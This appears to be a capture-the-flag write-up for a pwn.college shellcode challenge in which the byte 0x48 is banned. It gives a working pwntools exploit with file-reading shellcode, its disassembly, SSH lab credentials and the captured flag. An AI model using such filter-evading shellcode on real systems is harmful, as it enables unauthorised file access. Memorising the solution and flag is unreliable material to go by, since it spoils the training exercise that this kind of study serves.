

In this challenge our shellcode cannot have 0x48 opcode

The 0x48 opcode is usually used when dealing with extended registers or registers that have REX prefixes. 

0x48 is a REX prefix with following bit setting 

REX.W = 1 indicates the instruction uses 64 bit opearand size

The REX prefix, available in 64-bit mode, enables use of the AMD64 register and operand size
extensions. Unlike the legacy instruction modification prefixes, REX is not a single unique value, but
occupies a range (40h to 4Fh)



(https://www.amd.com/content/dam/amd/en/documents/processor-tech-docs/programmer-references/24594.pdf)

The exploit

```python
from pwn import *

context.arch='amd64'
context.os='linux'

asm_code = """
    xor eax, eax
    mov eax, 2
    lea edi, [rip + path]
    xor esi, esi
    syscall
    xor edi, edi
    mov dil, 1
    xor esi, esi
    mov sil, al
    xor edx, edx
    mov r10, 128
    mov al, 40
    syscall
path:
    .string "/flag"
"""

shellcode=asm(asm_code)

formatted_shellcode = ''.join([f'\\x{byte:02x}' for byte in shellcode])
print(formatted_shellcode)

HOST='pwn.college'
port=22
password='password'
FILE='/challenge/babyshell-level-4'
username='hacker'
conn = ssh(user=username, host=HOST, password=password)

proc = conn.process(FILE)
proc.recvuntil("Reading 0x1000 bytes from stdin.")
proc.sendline(shellcode)
proc.interactive()

conn.close()
```

In the asm code i have only used 32 bit registers to avoid 0x48 opcode


          Address      |                      Bytes                    |          Instructions
    ------------------------------------------------------------------------------------------
    0x000000002588d000 | 31 c0                                         | xor eax, eax
    0x000000002588d002 | b8 02 00 00 00                                | mov eax, 2
    0x000000002588d007 | 8d 3d 1b 00 00 00                             | lea edi, [rip + 0x1b]
    0x000000002588d00d | 31 f6                                         | xor esi, esi
    0x000000002588d00f | 0f 05                                         | syscall 
    0x000000002588d011 | 31 ff                                         | xor edi, edi
    0x000000002588d013 | 40 b7 01                                      | mov dil, 1
    0x000000002588d016 | 31 f6                                         | xor esi, esi
    0x000000002588d018 | 40 88 c6                                      | mov sil, al
    0x000000002588d01b | 31 d2                                         | xor edx, edx
    0x000000002588d01d | 49 c7 c2 80 00 00 00                          | mov r10, 0x80
    0x000000002588d024 | b0 28                                         | mov al, 0x28
    0x000000002588d026 | 0f 05                                         | syscall 

The flag 

    pwn.college{IotyjbjOpOdGT1XYkW6UUnMQpqC.0FMyIDL5kzM1czW}
